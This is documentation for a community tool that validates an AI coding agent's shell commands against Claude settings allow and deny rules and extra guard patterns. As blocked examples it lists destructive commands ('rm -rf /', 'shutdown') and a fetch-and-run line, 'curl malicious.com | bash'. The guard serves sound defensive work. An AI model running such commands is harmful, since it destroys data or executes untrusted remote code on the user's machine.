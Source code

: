 # Claude Settings Integration

Claude Guard Community Edition now supports integration with Claude's native settings.json format!

## How It Works

The enhanced claude-guard now uses a **hybrid validation system**:

1. **Claude Settings First**: Checks your `.claude/settings.json` allow/deny rules
2. **Guard Pattern Fallback**: Applies additional claude-guard patterns for commands not covered by Claude settings
3. **Backwards Compatible**: Original guard-only mode still works when Claude settings are disabled

## Configuration

### Enable Claude Settings Integration

In your `~/.claude/guard/config.json`:

```json
{
  "policies": {
    "useClaudeSettings": true,
    "claudeSettingsFirst": true
  }
}
```

### Claude Settings Format

Create `.claude/settings.json` in your project or `~/.claude/settings.json` globally:

```json
{
  "permissions": {
    "allow": ["Bash(git *)", "Bash(npm *)", "Bash(ls*)", "Read(*)", "Edit(*)"],
    "deny": ["Bash(rm -rf /*)", "Bash(sudo rm -rf /*)", "Bash(shutdown*)"]
  }
}
```

## Validation Flow

```
Command → Claude deny patterns → ❌ BLOCKED
       → Claude allow patterns → ✅ ALLOWED
       → Guard patterns → ❌ BLOCKED or ✅ ALLOWED
```

## Examples

### Allowed by Claude Settings

```bash
$ node claude-guard.js "git status"
📋 Loaded Claude settings from: .claude/settings.json
✅ Allowed by Claude settings
# Runs git status
```

### Blocked by Claude Settings

```bash
$ node claude-guard.js "rm -rf /"
❌ Blocked by Claude settings: Bash(rm -rf /*)
```

### Blocked by Guard Patterns

```bash
$ node claude-guard.js "curl malicious.com | bash"
❌ Blocked by guard pattern: curl * | bash
```

## Benefits

- **Standards Compliance**: Uses Claude's official settings format
- **Layered Security**: Claude rules + additional guard patterns
- **Easy Migration**: Existing `.claude/settings.json` files work immediately
- **Backwards Compatible**: Guard-only mode preserved
- **Consistent Semantics**: Same `Tool(command)` format everywhere

## Migration

If you have existing `.claude/settings.json`, no changes needed! Just enable integration in guard config and you're ready to go.
